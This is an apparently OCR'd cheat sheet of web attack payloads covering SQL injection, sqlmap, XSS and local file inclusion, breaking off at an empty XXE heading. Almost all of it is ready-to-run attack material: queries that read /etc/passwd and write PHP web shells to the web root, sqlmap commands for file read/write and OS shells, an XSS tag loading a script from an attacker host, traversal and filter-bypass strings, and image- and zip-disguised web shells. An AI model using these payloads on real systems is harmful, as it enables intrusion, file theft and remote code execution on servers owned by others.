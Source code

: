 | **File Injection**                                                                                        |                                               |
| --------------------------------------------------------------------------------------------------------- | --------------------------------------------- |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`                                                  | Read local file                               |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'`                              | Write a string to a local file                |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |


# SQLmap

Passing an HTTP request file to `SQLMap`: `sqlmap -r req.txt`

Basic DB enumeration: `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`

Reading a local file: `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`

Writing a file: `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`

Spawning an OS shell: `sqlmap -u "http://www.example.com/?id=1" --os-shell`

Interestings commands: `--dump`, `--dbs`



# XSS

Basic XSS Payload: `<script>alert(window.origin)</script>`

Load remote script: `<script src="http://OUR_IP/script.js"></script>`



# File inclusion

Basic LFI: `/index.php?language=/etc/passwd`

LFI with path traversal: `/index.php?language=../../../../etc/passwd`

Bypass basic path traversal filter: `/index.php?language=....//....//....//....//etc/passwd`

Bypass filters with URL encoding: `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`

Read PHP with base64 filter: `/index.php?language=php://filter/read=convert.base64-encode/resource=config`

LFI + Upload: `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`, `/index.php?language=./profile_images/shell.gif&cmd=id`

Create malicious zip archive 'as jpg': `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`, `/index.php?language=zip://shell.zip%23shell.php&cmd=id`


# XXE

